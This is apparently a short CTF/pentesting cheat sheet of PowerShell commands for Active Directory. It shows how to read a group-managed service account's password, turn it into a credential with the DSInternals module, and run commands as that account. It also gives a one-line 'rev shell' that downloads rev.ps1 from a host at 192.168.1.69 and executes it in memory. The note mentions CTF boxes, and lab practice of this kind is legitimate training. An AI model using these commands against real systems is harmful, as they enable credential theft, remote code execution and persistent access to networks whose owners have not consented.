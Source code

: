 # active directory

## get user account
```powershell
Get-AdUser AccountUsername
```

## get GMSA service account properties
```powershell
Get-AdServiceAccount AccountUsername -properties *
```

### get GMSA password and run commands
```powershell
# get password
$gmsa = Get-AdServiceAccount AccountUsername -properties msDS-ManagedPassword
$mp = $gmsa.'msDS-ManagedPassword'
# get secure string
$secpwd = (ConvertFrom-AdManagedPasswordBlob $mp).SecureCurrentPassword
$cred = New-Object System.Management.Automation.PSCredential('AccountUsername', $secpwd)
# test command
Invoke-Command -Computer 127.0.0.1 -Credential $cred -ScriptBlock { whoami }
# rev shell
Invoke-Command -Computer 127.0.0.1 -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```

#### fix missing ConvertFrom-AdManagedPasswordBlob
ConvertFrom-AdManagedPasswordBlob is not recognized as the name of a cmdlet, function...
need to install DSInternals module
```powershell
Install-Module DSInternals -Force
```
if powershell gallery is not available on CTF boxes
##### TODO: add steps to install from zip
